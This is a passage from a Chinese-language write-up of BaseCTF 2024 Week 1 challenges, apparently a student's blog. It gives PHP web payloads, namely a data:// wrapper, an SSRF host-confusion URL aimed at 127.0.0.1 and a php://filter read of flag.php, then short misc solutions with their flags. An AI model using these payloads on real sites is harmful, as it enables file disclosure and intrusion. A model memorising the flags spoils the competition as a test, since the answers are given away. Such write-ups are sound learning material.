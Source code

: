 ```php
```

观察一下，发现pen参数传入，但是是file_get_contents函数，可以通过伪协议将内容读取

```php
pen=data://text/plain,Aura
```

然后是challenge的参数，可以使用一个SSRF的服务端绕过

```php
challenge=http://jasmineaura.github.io@127.0.0.1
```

最后的include就是一个单纯的文件包含读取即可

```php
gift=php://filter/convert.base64-encode/resource=flag.php
```

​![image](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/20240916164724.png)​

# Misc

## [Week1] 签到！DK 盾！

​![image](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/20240916164725.png)​

```php
BaseCTF{2024_sp0n5ored_by_dkdun}
```

## [Week1] 海上遇到了鲨鱼

​![image](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/20240916164726.png)​

倒序即得

```php
BaseCTF{15ef386b-a3a7-7344-3b05-ac367316fb76}
```

## [Week1] Base

Base32+Base64

```php
BaseCTF{we1c0me_to_b4sectf}
```

## [Week1] 正着看还是反着看呢？

下载下来010打开发现是一个Jpg图片，但是倒序的，逆一下

​![image](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/20240916164728.png)​

Binwalk分离出来一个压缩包，然后打开即得flag
